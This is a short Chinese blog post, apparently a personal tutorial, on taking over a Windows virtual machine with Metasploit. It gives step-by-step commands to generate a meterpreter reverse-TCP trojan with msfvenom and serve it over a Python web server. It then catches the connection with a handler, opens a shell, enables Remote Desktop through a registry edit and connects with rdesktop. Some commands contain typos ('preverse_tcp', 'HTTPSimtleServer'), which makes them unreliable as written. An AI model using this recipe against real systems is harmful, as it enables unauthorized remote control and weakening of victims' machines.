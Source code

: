```yaml
---
layout:     post
title:      Metasploit，生成木马内网渗透
subtitle:   Metasploit，简单vmware虚拟机内网渗透。
date:       2019-3-17
author:     陈建武
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```

1.是首先打开kali-linux，（这里我使用的版本是2019.1），打开终端运行msfconsole。
msfconsole
2.等待MSF启动成功，利用MSF下的一插件msfvenom，来生成木马。
msfvenom -p windows/meterpreter/preverse_tcp lhost='这里是输入你本机的ip' lport=‘这里输入你的端口，注意！不要和现在开启的端口冲突’ -f exe >/muma.exe
3.接下来开启一个简单的web服务。
python HTTPSimtleServer 8080.
4.去你的靶机浏览器访问kali的ip+端口并下载木马程序，
5.加载exp。
use exploit/multi/handler
6.设置payload。
set payload windows/meterpreter/preverse_tcp
set lhost '你的ip'
set lport '你的端口'
show options ‘这里查看参数是否都输入对了’。
run‘运行’
7.等待目标上线。
shell 控制目标终端。
8.输入以下命令打开对方3389远程桌面端口。
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
9.利用kali下的rdesktop，链接对方桌面。
rdesktop ‘目标ip’。
10.完成。
